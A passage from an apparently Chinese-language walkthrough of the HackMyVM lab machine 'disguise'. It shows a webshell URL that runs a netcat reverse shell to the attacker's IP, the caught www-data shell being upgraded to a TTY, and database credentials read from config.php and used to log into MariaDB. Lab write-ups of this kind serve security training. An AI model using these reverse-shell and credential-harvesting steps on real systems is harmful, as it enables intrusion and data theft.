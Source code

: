 通过Webshell执行反弹命令：
`http://dark.disguise.hmv/images/8d755f95e5203d7d71d93aefa9649514.php?cmd=nc+192.168.205.206+8888+-e+/bin/bash`

![image-20250516165136706](https://7r1umphk.github.io/image/20250516165136907.webp)

成功接收到反弹Shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/shell]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.206] from (UNKNOWN) [192.168.205.211] 51496
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

对Shell进行TTY优化：

```bash
script /dev/null -c bash
# 按 Ctrl+Z 将其置于后台
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

## 7.2 信息收集 (www-data 用户)

在 `/var/www/dark/` 目录下找到 `config.php`。

```bash
www-data@disguise:/var/www/dark$ cat config.php
<?php

$DB_USER = 'dark_db_admin';
$DB_PASS = 'Str0ngPassw0d1***';
$DB_NAME = 'dark_shop';

?>
```

拿到数据库用户名 `dark_db_admin` 和密码 `Str0ngPassw0d1***`。
登录数据库查看用户信息。

```bash
www-data@disguise:/var/www/dark$ mysql -u dark_db_admin -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 78045
Server version: 10.3.39-MariaDB-0+deb10u2 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| dark_shop          |
| information_schema |
+--------------------+
2 rows in set (0.014 sec)

MariaDB [(none)]> use dark_shop;
```